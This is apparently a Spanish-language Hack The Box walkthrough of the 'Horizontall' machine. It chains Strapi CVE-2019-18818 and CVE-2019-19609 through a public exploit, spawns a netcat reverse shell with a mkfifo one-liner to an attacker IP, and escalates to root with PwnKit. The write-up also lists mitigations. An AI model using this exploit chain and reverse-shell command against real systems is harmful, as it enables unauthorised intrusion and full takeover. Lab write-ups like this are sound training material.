# Horizontall

[{ .maquina-icono }](https://app.hackthebox.com/machines/Horizontall)

## Resumen

Máquina Linux con una web hecha en **Vue.js** que, por detrás, habla con una **API** en otro
subdominio (`api-prod.horizontall.htb`). Esa API es un **Strapi 3.0.0-beta.17.4**, una versión con
dos fallos conocidos: un *bypass* para resetear la contraseña del admin (**CVE-2019-18818**) y un
**RCE** (**CVE-2019-19609**). Encadenándolos se consigue una shell como el usuario `strapi`. Para
root, la máquina es vulnerable a **PwnKit** (**CVE-2021-4034**), el fallo de `pkexec`.

## Reconocimiento

Un ping para ver el TTL y el sistema operativo:

```
ping -c 1 10.129.88.227
```

```
64 bytes from 10.129.88.227: icmp_seq=1 ttl=63 time=53.3 ms
```

TTL cercano a **64** → máquina **Linux**.

### Puertos

```
nmap -p- --open -T4 --min-rate 5000 10.129.88.227 -oN ports
nmap -p 22,80 -sVC -T4 --min-rate 5000 10.129.88.227 -oN targeted
```

```
22/tcp open  ssh   OpenSSH 7.6p1 Ubuntu 4ubuntu0.5
80/tcp open  http  nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
```

El 80 redirige a **`horizontall.htb`**, así que lo añadimos al `/etc/hosts` y entramos.

## Enumeración

La web es una página corporativa… pero **no funciona nada**: los botones no hacen nada y el
formulario no manda peticiones. Eso ya huele a una **SPA** (una web montada entera con JavaScript):



Si hacemos `curl` o miramos el HTML, es un cascarón: el contenido lo construye JavaScript en el
navegador. Lo confirmamos con Wappalyzer (dice **Vue.js**) y mirando el código. La clave está en el
**fichero `app.js`**: ordenándolo aparece la **URL del backend** que usa el JS para pintar la página:



Es **`api-prod.horizontall.htb`**. Lo añadimos también al `/etc/hosts`:



### Fuzzing de la API

Fuzzeamos ese subdominio para ver qué expone:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://api-prod.horizontall.htb/FUZZ -mc 200,204,301,302,307,401,404 -e .php,.html,.txt -t 100 -ac -c
```



El que interesa es **`/admin`**, que tiene un panel de login:



`curl` o `whatweb` no cantan la versión, pero buscando cómo hacerle *fingerprint* a esto, la ruta
**`/admin/init`** sí la devuelve:

```
curl -s http://api-prod.horizontall.htb/admin/init | json_pp
```



Es **Strapi `3.0.0-beta.17.4`**, una versión vulnerable a RCE.

## Explotación

> **Primer intento (no me funcionó).** Probé primero con
> [guglia001/CVE-2019-18818](https://github.com/guglia001/CVE-2019-18818) para resetear la
> contraseña del admin, y luego un exploit aparte para el RCE. El reset iba, pero el RCE se me
> quedó dando errores un buen rato, así que cambié de herramienta.

El que sí funcionó fue el de exploit-db, que **encadena los dos fallos de un tirón**
(reset de contraseña + RCE). Solo hay que pasarle la URL de la API:

```
python3 /usr/share/exploitdb/exploits/multiple/webapps/50239.py http://api-prod.horizontall.htb/
```



Lo que hace es:

1. **Resetea la contraseña del admin** (`admin@horizontall.htb`) a una que fija el propio exploit
   y te muestra por pantalla, y con ella se autentica (CVE-2019-18818).

2. Con esa sesión, lanza el **RCE** (CVE-2019-19609). Es una **shell ciega** (no ves la salida),
   pero desde ahí ya podemos invocar una reverse de verdad:

    ```
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.15.39 4444 >/tmp/f
    ```

Con el listener abierto, la shell nos cae como el usuario **`strapi`** y leemos la flag de usuario:



```
USER FLAG -> [censurada]
```

## Escalada de privilegios

Mirando qué corre en la máquina, veo un servicio **local** (solo escucha en `127.0.0.1`) en el
puerto **8000**. Si le hago un `curl`, es una app **Laravel**:



Esa es la vía «prevista» (Laravel suele tener su propio RCE en modo debug), pero por más que lo
intenté **no conseguí explotarlo**. Así que busqué otra puerta.

### PwnKit (CVE-2021-4034)

Compruebo si está `pkexec` y con qué versión:

```
which pkexec
```



Está, y la máquina es vulnerable a **PwnKit (CVE-2021-4034)**: un fallo en cómo `pkexec` maneja los
argumentos y las variables de entorno que permite a un usuario local sin privilegios obtener `root`.
Me bajo el exploit, lo subo a la máquina, lo compilo con `make` y lo ejecuto:

```
# en la máquina, dentro de la carpeta del exploit
make
./cve-2021-4034
```

Y ya soy **root**; leo la flag final:



```
ROOT FLAG -> [censurada]
```

## Mitigación

- **Actualizar Strapi.** La `3.0.0-beta.17.4` arrastra el bypass de reseteo de contraseña
  (**CVE-2019-18818**) y el RCE (**CVE-2019-19609**); hay que pasar a una versión parcheada. Y el
  panel `/admin` no debería estar accesible sin más desde fuera.
- **No exponer pistas del backend en el JavaScript.** La URL de `api-prod.horizontall.htb` estaba
  servida en claro en el `app.js`; separar y proteger la API, y no dejar el `/admin/init`
  revelando la versión, se lo pone mucho más difícil al atacante.
- **Parchear `pkexec` (PwnKit / CVE-2021-4034).** Es una escalada local trivial y con exploit
  público; mantener `polkit` actualizado la cierra. Mientras tanto, cualquier usuario con una shell
  (como `strapi`) llega a root.
- **Mínimo privilegio en los servicios.** El RCE de Strapi dio una shell como `strapi`; que ese
  usuario esté bien acotado y que el servicio no corra con más permisos de los necesarios limita el
  daño del acceso inicial.

## Lo que me costó / Lo que aprendí

Lo que más me costó fue el principio: una web en la que **no funciona nada** despista, pero
justamente eso era la pista de que todo lo monta JavaScript y de que el contenido real vive en otra
parte. Aprendí a ir al **`app.js`** a buscar las URLs que usa el *front*, que es donde estaba el
subdominio de la API. Sin ese paso no hay máquina.

También me llevo la lección de **no empeñarme con un exploit que no va**. Perdí bastante tiempo con
el primer PoC del RCE de Strapi dándome errores; en cuanto cambié al de exploit-db (que encadena el
reset y el RCE solo), salió a la primera. Y en la escalada, igual: la vía «buena» era el Laravel del
puerto 8000 y no me funcionó, así que en vez de obsesionarme tiré de **PwnKit**, que en esa época se
comía medio Linux. A veces la máquina tiene un camino pensado y tú llegas por otro; lo que cuenta es
llegar.

---

**Flags:**
- `strapi/user.txt` → `[censurada]`
- `root/root.txt` → `[censurada]`
